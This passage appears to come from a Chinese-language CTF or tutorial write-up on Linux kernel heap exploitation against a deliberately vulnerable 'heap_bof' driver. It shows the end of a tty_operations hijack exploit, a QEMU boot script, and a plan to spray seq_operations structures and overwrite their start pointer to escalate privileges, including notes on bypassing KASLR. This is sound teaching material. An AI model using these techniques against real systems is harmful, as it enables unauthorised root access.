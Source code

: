 ```

*(size_t*)&p.buf[0x18]=&fake_tty_ops;
    ioctl(bof_fd, BOF_EDIT,&p);

    ioctl(ptmx_fd,0,0);


return0;
}
```  
# seq_operations 劫持  
  
**boot.sh**  
```
#!/bin/bash

qemu-system-x86_64 \
-initrd rootfs.img \
-kernel bzImage \
-m 512M \
-nographic \
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1 quiet kaslr' \
-monitor /dev/null \
-s \
-cpu kvm64 \
-smp cores=1,threads=1 \
--nographic
```  
## 利用思路  
  
seq_operations 结构如下，该结构在打开 /proc/self/stat 时从 kmalloc-32 中分配。  
```
struct seq_operations {
    void*(*start)(struct seq_file *m,loff_t*pos);
void(*stop)(struct seq_file *m,void*v);
void*(*next)(struct seq_file *m,void*v,loff_t*pos);
int(*show)(struct seq_file *m,void*v);
};
```  
  
调用读取 stat 文件时会调用 seq_operations 的 start 函数指针。  
```
ssize_t seq_read(struct file *file, char __user *buf, size_t size, loff_t *ppos)
{
    struct seq_file *m = file->private_data;
    ...
    p = m->op->start(m, &pos);
    ...
```  
  
当我们在 heap_bof 驱动分配 0x20 大小的 object 后打开大量的 stat 文件就有很大概率在 heap_bof 分配的 object 的溢出范围内存在 seq_operations 结构体。由于这道题关闭了 SMEP，SMAP 和 KPTI 保护，因此我们可以覆盖 start 函数指针为用户空间的提权代码实现提权。至于 KASLR 可以通过泄露栈上的数据绕过。  
  